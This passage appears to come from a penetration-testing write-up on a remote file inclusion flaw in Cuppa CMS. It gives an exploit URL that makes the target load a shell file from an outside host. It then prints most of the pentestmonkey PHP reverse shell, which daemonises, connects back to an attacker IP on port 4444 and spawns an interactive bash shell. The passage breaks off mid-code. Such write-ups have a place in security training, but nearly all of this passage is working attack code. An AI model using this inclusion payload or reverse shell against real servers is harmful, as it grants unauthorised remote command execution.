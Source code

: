`http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?`

For this to work, I first need to generate a reverse shell:

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'your_ip';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
```